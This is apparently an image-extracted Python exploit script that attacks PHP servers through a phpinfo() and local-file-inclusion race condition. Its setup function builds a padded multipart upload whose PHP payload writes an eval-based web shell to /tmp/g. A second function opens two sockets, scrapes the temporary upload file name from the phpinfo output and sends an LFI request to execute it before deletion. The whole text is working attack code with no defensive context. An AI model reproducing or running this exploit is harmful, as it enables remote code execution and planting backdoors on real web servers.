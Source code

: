    def setup(host, port):
        TAG="Security Test"
        PAYLOAD="""%s\r
    <?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
        REQ1_DATA="""-----------------------------7dbff1ded0714\r
    Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
    Content-Type: text/plain\r
    \r
    %s
    -----------------------------7dbff1ded0714--\r""" % PAYLOAD
        padding="A" * 5000
        REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
    Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
    HTTP_ACCEPT: """ + padding + """\r
    HTTP_USER_AGENT: """+padding+"""\r
    HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
    HTTP_PRAGMA: """+padding+"""\r
    Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
    Content-Length: %s\r
    Host: %s\r
    \r
    %s""" %(len(REQ1_DATA),host,REQ1_DATA)
        #modify this to suit the LFI script   
        LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
    User-Agent: Mozilla/4.0\r
    Proxy-Connection: Keep-Alive\r
    Host: %s\r
    \r
    \r
    """
        return (REQ1, TAG, LFIREQ)

    def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

        s.connect((host, port))
        s2.connect((host, port))

        s.send(phpinforeq)
        d = ""
        while len(d) < offset:
            d += s.recv(offset)
        try:
            i = d.index("[tmp_name] => ")
            fn = d[i+17:i+31]
        except ValueError:
            return None

        s2.send(lfireq % (fn, host))
        d = s2.recv(4096)
        s.close()
        s2.close()
